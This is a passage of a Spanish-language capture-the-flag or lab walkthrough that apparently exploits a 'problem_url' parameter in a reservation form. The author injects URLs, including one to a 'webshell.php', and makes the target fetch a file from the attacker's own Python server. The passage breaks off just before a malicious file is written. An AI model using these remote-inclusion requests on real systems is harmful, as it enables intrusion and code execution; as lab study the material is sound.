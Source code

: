 ```



name=pepito+grillo&email=grillo%40example.com&phone=123456789&problem_url=http%3A%2F%2Ftusitio.com%2Fuploads%2Fwebshell.php
```
la mandamos al repeater y vamos a ver que podemos hacer

para trabajar más limpio dejo así la peticion en la parte de los datos:
```
name=pepito+grillo

&email=grillo%40example.com

&phone=123456789

&problem_url=http%3A%2F%2Ftusitio.com%2Fuploads%2Fwebshell.php
```

ahí tenemos problen_url, vamos a hacernos una petición de un archivo y vemos que pasa

mi ip en docker es 172.17.0.1

monto un servidor con python:
```bash
sudo python3 -m http.server 80
```
y hago una petición a mi ip de unarchivo que no existe:
```
http://172.17.0.1/noexisto.php
```
que encodeado me queda así:
```
http%3A%2F%2F172.17.0.1%2Fnoexisto.php
```
hago la petición porburpsuite quedando así la data:

```
name=pepito+grillo

&email=grillo%40example.com

&phone=123456789

&problem_url=http%3A%2F%2F172.17.0.1%2Fnoexisto.php
```
no obtengo la petición a mi servidor python
asique modifico esta vez en la url ya que ponía que era una constante
```
POST /reservation.php?problem_url=http%3A%2F%2F172.17.0.1%2Fnoexisto.php
```

y ahora si recibo la petición a mi servidor:
```
sudo python3 -m http.server 80                                                                                                                                                
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
172.17.0.2 - - [21/Jan/2025 14:22:58] code 404, message File not found
172.17.0.2 - - [21/Jan/2025 14:22:58] "GET /noexisto.php HTTP/1.1" 404 -
```
pues voy a subir un archivo malicioso, creo uno con este contenido:
